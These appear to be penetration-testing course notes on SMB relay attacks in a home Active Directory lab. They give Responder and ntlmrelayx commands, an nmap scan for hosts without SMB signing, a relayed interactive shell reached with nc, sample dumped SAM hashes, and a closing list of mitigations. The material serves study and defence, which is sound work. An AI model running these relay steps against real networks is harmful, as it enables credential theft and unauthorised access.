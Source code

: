 #cybersecurity #hacking #penetration-testing 
#active-directory #smb 

# SMB Relay Attack

## SMB Relay Attacks Overview (Usefull in case of Strong password policy)

#### What is SMB Relay?

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access

#### Requirements

-   ﻿﻿SMB signing must be disabled on the target
-   ﻿﻿Relayed user credentials must be admin on machine

>Note: In this case Vegeta is admin on both the Planet Vegeta Machine and Earth Machine

1. Edit the responder configuration file ```gedit Responder.conf```
![](https://i.imgur.com/zMDNVcs.png)
2. Run Responder ```python Responder.py -| tun0 -dw```
3. Set up the relay ```python ntlmrelayx.py -tf targets.txt -smb2support```
4. An event occurs: point the Win10box at a machine but DNS fails, responder kicks in and relays creds to another machine
5. Credentials are relayed to another machine

>Vegeta is an admin on the Earth machine too so if his hash is relayed to the Earth Machine we should be able to get access to that machine as well

![](https://i.imgur.com/mfo883Z.png)

## Discovering Hosts with SMB Signing Disabled

Several ways to do this:
- Nessus
- Nmap
- Search github for smb checker

### NMAP Way

```bash
nmap --script=smb2-security-mode.nse -p445 192.168.2.0/24 -Pn
```

Output:
![](https://i.imgur.com/CXIZBIQ.png)

We can see the server (192.168.2.135) has signing required but the individual windows 10 machines do not:

![](https://i.imgur.com/vDnBc5f.png)

Create a ``targets.txt`` file with ``192.168.2.137``: Win10-Earth Machine

## SMB Relay Attack Part 1

Need to turn off SMB and HTTP:

![](https://i.imgur.com/zMDNVcs.png)

Run responder

```bash
repsonder -I eth0 -dw
```

![](https://i.imgur.com/EAPpNEU.png)

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

Point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box)
It responds with an error but dumps the SAM hash because Vegeta is admin on the Win10-Earth Machine as well

![](https://i.imgur.com/UqCRwgH.png)

SAM Hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:bcd858e95a29844cea73b5bc3bf76117:::
Goku:1003:aad3b435b51404eeaad3b435b51404ee:403f92cda3c8066381327fba611a6a9e:::
```

## SMB Relay Attack Part 2

Get an interactive shell from the SMB relay attack:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -i
```

Again I point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box). This is the "event" where DNS fails and the SMB Relay begins.

![](https://i.imgur.com/6v6Ptex.png)

```bash
nc 127.0.0.1 11000
```

![](https://i.imgur.com/WW36jQA.png)


Rewatch the end of https://academy.tcm-sec.com/courses/1152300/lectures/24780884


## SMB Relay Attack Defenses : Mitigation Strategies

### Enable SMB Signing on all devices
Pro: Completely stops the attack
Con: Can cause performance issues with file copies
### Disable NTLM authentication on network
Pro: Completely stops the attack
Con: If Kerberos stops working, Windows defaults back to NTLM
### Account tiering:
Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
Con: Enforcing the policy may be difficult
### Local admin restriction:
Pro: Can prevent a lot of lateral movement
Con: Potential increase in the amount of service desk tickets
